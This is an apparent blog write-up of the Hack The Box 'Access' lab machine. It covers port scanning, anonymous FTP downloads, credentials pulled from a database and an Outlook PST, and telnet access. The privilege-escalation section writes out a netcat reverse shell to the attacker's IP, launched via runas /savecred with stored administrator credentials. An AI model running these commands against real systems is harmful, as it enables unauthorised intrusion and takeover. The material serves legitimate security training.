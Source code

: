 ```yaml
---
layout: post
title: Hack The Box, Access
tags: [Hack The Box, Windows, Impacket, Readpst]
---
```

![accesslogo](/boxes/htb/access/accessLogo.PNG)

### i. Port Scan
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
```
### ii. Enumeration
There are three services that are available to enumerate. To start off, we take a look at the http/website on port 80.  
![website](/boxes/htb/access/website.PNG)   
After enumerating this service nothing was found. Next up is port 23 telnet. Connecting to telnet gives us a prompt for credentials. Trying a few common credentials didn't work. We will put this on the backburner for now.

Let's take a look at port 21 the FTP service. Nmap indicated anonymous FTP login was allowed and we were able to login and enumerate the FTP server.  
![ftpdirectories](/boxes/htb/access/ftpdir.PNG)    

A file backup.mdb was found in the Backups directory and we download a copy of it.  
![backupfile](/boxes/htb/access/backups.PNG)  

In the Engineer folder there is a file called Access Control.zip and we also transfer it to our machine.  
![accesscontrolfile](/boxes/htb/access/engineer.PNG)
  
Attempting to unzip the Access Control.zip file we run into password protection. We'll add this to the backburner list and look at the backup.mdb file. The backup.mdb file is a Microsoft Access Database. We transfer it to a Windows virtual machine and open it up.

Within the auth_user table credentials were found:

| username     | password          |
|--------------|-------------------|
| admin        | admin             |
| engineer     | access4u@security |
| backup_admin | admin             |

Trying the credentials via telnet did not work. Using the password `access4u@security` on the Access Control.zip file resulted in successfully extracting a file called Access Control.pst. Running the `file` command tells us this is a Microsoft Outlook PST.

Using the following command convert the pst to a mbox file and read its contents:
```
readpst Access\ Control.pst
cat Access\ Control.mbox
```
Within the mbox file we find an email with another set of credentials:  
![emailcreds](/boxes/htb/access/email.PNG)  

The credentials in the email gave us access to the machine via telnet and the user flag was found.  
![userflag](/boxes/htb/access/user.PNG)
### iii. Privilege Escalation
When performing Windows enumeration one of the things to check for is saved credentials. Running the following command lists any stored credentials:
```
cmdkey /list
```
![storedcreds](/boxes/htb/access/creds.PNG)
  
Since stored credentials are available, there are a few options to capture the root flag. The route we will take is sending ourselves an administrative shell. Within the Kali Linux distribution, you can find precompiled Windows binaries under the following directory:
 ```
 /usr/share/windows-binaries
 ```
 Using impacket's smbserver.py create an SMB share on the attack machine and transfer over a netcat binary.
 ```
 python smbserver.py sharename /share
 
 Copying files onto the victim machine:
 copy \\<ip address>\sharename\nc.exe .
 ```
Next set up a listener on the attack machine to prepare for the incoming shell:
```
nc -nlvp 443
```
Once the listener is setup, send a shell with the following command:
```
runas /user:access\administrator /savecred "cmd /c c:\users\security\nc.exe -nv <ip address> 443 -e c:\windows\system32\cmd.exe
```
The shell is received and is running as an administrative user! You can now capture the root flag!

![rootshell](/boxes/htb/access/rootshell.PNG)



